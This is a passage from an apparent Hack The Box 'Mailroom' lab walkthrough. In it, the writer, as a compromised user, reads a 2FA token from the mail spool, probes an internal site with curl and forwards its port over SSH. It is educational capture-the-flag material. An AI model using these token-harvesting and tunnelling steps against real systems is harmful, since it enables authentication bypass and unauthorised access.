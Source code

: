 On successful authentication response from the staff site, it indicates that a 2FA token has been sent to a mail with the message: `{"success":true,"message":"Check your inbox for an email with your 2FA token"}`. Using this information, found an email for the user `tristan` in the `/var/mail` directory, which contains the 2FA token.

```bash
(remote) tristan@mailroom:/var/mail$ ls -la
total 16
drwxrwsr-x  2 root    mail 4096 Jul 19 13:14 .
drwxr-xr-x 12 root    root 4096 Jan 19 13:22 ..
-rw-------  1 root    mail    1 Jan 15  2023 root
-rw-------  1 tristan mail  417 Jul 19 13:18 tristan
(remote) tristan@mailroom:/var/mail$ cat tristan
Return-Path: <noreply@mailroom.htb>
X-Original-To: tristan@mailroom.htb
Delivered-To: tristan@mailroom.htb
Received: from localhost (unknown [172.19.0.5])
    by mailroom.localdomain (Postfix) with SMTP id E2E681CB3
    for <tristan@mailroom.htb>; Wed, 19 Jul 2023 13:14:50 +0000 (UTC)
Subject: 2FA

Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=9eafe490e2ae459894df81a7f3b7b2ce
```

Despite being unable to locate the source code for the site, it can be accessed using `curl` on localhost.

```bash
(remote) tristan@mailroom:/dev/shm$ curl -I  staff-review-panel.mailroom.htb
HTTP/1.1 200 OK
Date: Wed, 19 Jul 2023 13:52:20 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=82f030a6564259c7edf5f9d308875788; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=UTF-8
```

Given that the site seems to be internal, forwarding port 80 using SSH using the existing connection. Also added the vhosts for `127.0.0.1` on the attack box.

```bash
> _ echo '127.0.0.1 mailroom.htb    git.mailroom.htb    staff-review-panel.mailroom.htb' >> /etc/hosts
> ssh tristan@mailroom.htb -N -L 80:127.0.0.1:80
tristan@mailroom.htb's password:
```

### Shell as www-data in the container

With the auth token from Tristan's email, the staff review website can be accessed. Nevertheless, the dashboard itself doesn't provide a lot of information.
